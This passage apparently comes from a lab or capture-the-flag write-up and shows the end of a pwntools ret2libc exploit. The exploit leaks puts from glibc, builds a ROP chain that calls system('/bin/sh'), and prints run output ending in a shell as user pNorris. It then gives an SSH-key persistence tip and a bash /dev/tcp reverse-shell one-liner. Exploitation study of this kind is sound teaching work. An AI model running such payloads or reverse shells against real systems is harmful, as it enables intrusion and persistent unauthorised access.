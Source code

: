 ```python
log.info("Leaked puts@glibc       : 0x%x" % data)
log.info("Calculated glibc        : 0x%x" % libc_base)
log.info("Calculated system@glibc : 0x%x" % system)
log.info("Calculated /bin/sh@glibc: 0x%x" % binsh)
log.info("Executing shell ... type any command")

# system(ptr to /bin/sh in glibc)
payload  = "a"*12
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(ret)
payload += p64(system)
proc.send(payload)

# PROFIT
proc.interactive()
```


After running it successfully, you should basically drop into a semi-interactive shell

```bash
tWatson@ubuntu:~/Desktop$ python ./exploit.py 
[*] '/home/tWatson/Desktop/echoToolBackup'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 127.0.0.1 on port 6666: Done
[*] Leaked puts@glibc       : 0x7f8e2ca8ca30
[*] Calculated glibc        : 0x7f8e2ca0c000
[*] Calculated system@glibc : 0x7f8e2ca5b4e0
[*] Calculated /bin/sh@glibc: 0x7f8e2cbc00fa
[*] Executing shell ... type any command
[*] Switching to interactive mode
$ id
uid=1002(pNorris) gid=1002(pNorris) groups=1002(pNorris)
$ cd Desktop
$ ls -la
total 28
drwxr-x---  3 pNorris pNorris 4096 Oct 22 14:18 .
drwxr-x--- 10 pNorris pNorris 4096 Oct 22 15:09 ..
-rwxr-x---  1 root    pNorris 8560 Oct 22 13:54 echoTool
drwxr-x---  2 pNorris pNorris 4096 Oct 22 14:59 script
-rw-r--r--  1 root    root     142 Oct 22 14:18 user2.txt
$ cat user2.txt
I know I've misplaced my ROP binary for tomorrow's class somewhere ...

Oh well. I need to get on with the work for next week's python class!
```

From here you can either drop your public sshkey into `~/.ssh/authorized_keys` or pop a reverse shell using `/bin/bash -c "/bin/bash -i >& /dev/tcp/<LOCALIP>/<LOCALPORT> 0>&1"`. I will assume you have logged in as pNorris henceforth.
